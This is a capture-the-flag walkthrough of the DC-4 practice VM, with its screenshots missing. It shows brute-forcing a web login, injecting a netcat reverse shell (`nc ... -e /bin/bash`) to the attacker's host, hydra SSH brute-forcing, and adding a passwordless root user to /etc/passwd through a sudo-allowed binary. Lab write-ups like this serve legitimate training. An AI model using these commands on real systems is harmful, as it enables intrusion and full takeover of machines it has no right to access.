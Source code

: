 # DC - 4

nmap enumeration

![](../../.gitbook/assets/aaaaaaaaaaaaa%20%281%29.png)

directory discovery

![](../../.gitbook/assets/image%20%2814%29.png)

we have a login page in /login.php

![](../../.gitbook/assets/image%20%282%29.png)

after a bruteforce with burp and rockyou:

username: Admin

 password: happy

![](../../.gitbook/assets/image%20%285%29.png)

click on command

![](../../.gitbook/assets/image%20%284%29.png)

click run and intercept the request with burp

we can see the command sending to the server:

![](../../.gitbook/assets/image%20%281%29.png)

in this case its ls -l the additional + is for encoding.

we can use this to get a shell

change the ls command to this:

```text
nc+192.168.56.1+6666+-e+/bin/bash
```

![](../../.gitbook/assets/image%20%2811%29.png)

run a listener and get a shell:

![](../../.gitbook/assets/image%20%2810%29.png)

![](../../.gitbook/assets/image%20%2819%29.png)

![](../../.gitbook/assets/image%20%2812%29.png)

we have a wordlist of old passwords, try it with hydra for usernames jim, sam and charles

```text
 hydra -L users -P wordlist 192.168.56.165 ssh -vvv -t 4
```

![](../../.gitbook/assets/image%20%2815%29.png)

username: jim

 passsword: jibril04

![](../../.gitbook/assets/image%20%2823%29.png)

![](../../.gitbook/assets/image%20%2820%29.png)

nothing comes out of these files

lets look for other vectors:

![](../../.gitbook/assets/image%20%2813%29.png)

no useful suid/sgid files



![](../../.gitbook/assets/image%20%2817%29.png)

no cron jobs

![](../../.gitbook/assets/image%20%2821%29.png)

lets check the mails:

cat /var/mail/jim

![](../../.gitbook/assets/image%20%287%29.png)

login to charles:

![](../../.gitbook/assets/image%20%2824%29.png)

here we have sudo access:



![](../../.gitbook/assets/image%20%286%29.png)

we can run a binary named teehee without password

![](../../.gitbook/assets/image%20%2818%29.png)

it says that it can:

Copy standard input to each FILE, and also to standard output

#### this means whatever we give \(pipe\) to the binary executable it will append to the specified file as an argument and it is executed with sudo and without password so it can access any file on the system including /etc/shadow and /etc/passwd

so we can add a new entry to /etc/passwd \( a new root user\)

```text
echo "root2::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

su root2

![](../../.gitbook/assets/image%20%2816%29.png)

done !



